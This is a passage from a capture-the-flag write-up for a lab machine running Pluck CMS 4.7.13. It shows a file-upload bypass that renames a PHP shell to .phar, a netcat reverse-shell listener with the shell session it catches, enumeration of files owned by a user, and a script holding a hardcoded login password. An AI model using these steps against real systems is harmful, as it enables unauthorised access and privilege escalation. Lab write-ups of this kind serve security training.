 
## ⚙️ Shell Access

- So, I immediately tried uploading a shell, but my PHP shell didn't work. When I looked for some exploits, I found this [one](https://www.exploit-db.com/exploits/49909).

- In the code you can see that exploit uploads a `.phar` file, so I changed my shell to `.phar`, uploaded it and got a connection.

  ```
  cp shell.php shell.phar

  nc -lvnp 4444
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.60.142] 36328
  Linux ip-10-10-60-142 5.15.0-138-generic #148~20.04.1-Ubuntu SMP Fri Mar 28 14:32:35 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
   20:39:34 up 31 min,  0 users,  load average: 0.00, 0.01, 0.02
  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  /bin/sh: 0: can't access tty; job control turned off
  $ whoami
  www-data
  $ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
  
- Now let's get those flags.

---

## 🧍 User Privilege Escalation

- You can find the Lucien flag easily but you can't read it. After some enumeration, I looked for all the files related to user `lucien` and got what I need.

  ```
  www-data@ip-10-10-60-142:/home$ find / -user lucien 2>/dev/null
  /opt/test.py
  /home/lucien
  /home/lucien/.ssh
  /home/lucien/.local
  /home/lucien/.local/share
  /home/lucien/.local/lib
  /home/lucien/.local/lib/python3.8
  /home/lucien/.local/lib/python3.8/site-packages
  /home/lucien/.sudo_as_admin_successful
  /home/lucien/.mysql_history
  /home/lucien/.bash_history
  /home/lucien/.profile
  /home/lucien/.bash_logout
  /home/lucien/.cache
  /home/lucien/.bashrc
  /home/lucien/lucien_flag.txt
  
  www-data@ip-10-10-60-142:/home$ cat /opt/test.py 
  import requests
  
  #Todo add myself as a user
  url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
  password = "HeyLucien#@1999!"
  
  data = {
          "cont1":password,
          "bogus":"",
          "submit":"Log+in"
  ```